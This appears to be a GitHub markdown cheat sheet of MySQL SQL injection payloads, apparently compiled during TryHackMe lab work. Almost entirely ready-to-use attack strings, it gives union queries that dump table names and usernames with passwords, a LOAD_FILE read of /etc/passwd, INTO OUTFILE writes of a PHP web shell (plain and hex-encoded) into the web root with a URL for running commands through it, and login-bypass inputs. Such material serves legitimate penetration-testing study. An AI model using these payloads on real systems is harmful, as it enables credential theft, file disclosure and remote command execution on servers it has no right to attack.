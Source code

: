 # uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```

> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```
> then go to http://example.com/shell.php?cmd=`<exec>`

> uploading file Says 'Hello from SQLI'
```
<VALUE>'union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -
```
>then exec: `curl http://example/shell.php`
# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
# read files
1: 
```
<VALUE>'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
# command shell
```
<VALUE>'union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Payload in hex
```
local@local:~/Documents/tryhackme/yearofthedog/logs$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> select hex('<?php system($_GET["cmd"]) ?>');
+------------------------------------------------------------+
| hex('<?php system($_GET["cmd"]) ?>')                       |
+------------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E |
+------------------------------------------------------------+
1 row in set (0.00 sec)
```
> then exec:
```
<VALUE>'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Login Page
> try those injection
```
username：admin'
password: 1
- Payload
username: admin'-- -
password: 1


```
